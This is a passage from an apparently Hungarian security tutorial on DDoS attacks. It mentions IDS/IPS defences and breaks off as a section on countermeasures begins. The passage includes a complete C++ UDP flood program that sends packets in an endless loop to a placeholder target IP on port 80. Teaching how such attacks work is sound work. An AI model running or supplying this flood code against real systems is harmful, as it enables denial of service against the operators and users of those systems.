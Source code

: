 
###### DDoS támadások

A DDoS támadások során a támadó sok kompromittált rendszert használ (amelyek lehetnek botnetek vagy hijackelt eszközök) az egyetlen célpont megrohamozására. Ezek a támadások gyakran szofisztikáltabbak és nehezebben védhetőek, mivel a támadások forrásai több ezer (vagy akár millió) különböző IP címből származhatnak.

A **DDoS támadások** védelme érdekében több módszer létezik, például az **Intrusion Detection System (IDS)** és **Intrusion Prevention System (IPS)** rendszerek alkalmazása, amelyek képesek a hálózati forgalomban potenciális támadásokat felismerni és megakadályozni.

Az alábbi C++ példa egy egyszerű UDP flood támadást mutat be, amely szintén gyakori módja a DDoS támadásoknak:
```cpp
#include <iostream>
#include <cstring>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <unistd.h>

int main() {
    int sock = socket(AF_INET, SOCK_DGRAM, IPPROTO_UDP);
    if (sock < 0) {
        std::cerr << "Socket creation failed\n";
        return 1;
    }

    struct sockaddr_in sin;
    sin.sin_family = AF_INET;
    sin.sin_port = htons(80);
    sin.sin_addr.s_addr = inet_addr("TARGET_IP");

    char message[] = "DDoS attack test message";

    while (true) {
        if (sendto(sock, message, strlen(message), 0, (struct sockaddr *)&sin, sizeof(sin)) < 0) {
            std::cerr << "Send failed\n";
            break;
        } else {
            std::cout << "Packet Sent\n";
        }
        usleep(1000); // 1ms delay to control the flood rate
    }

    close(sock);
    return 0;
}
```

###### Védekezés DoS és DDoS támadások ellen

Az egyik legnagyobb kihívás a DoS és DDoS támadások elleni védelem, mivel ezek sokféle formában és forrásból érkezhetnek. A hatékony védekezés érdekében több összetevő integrált megközelítése szükséges:
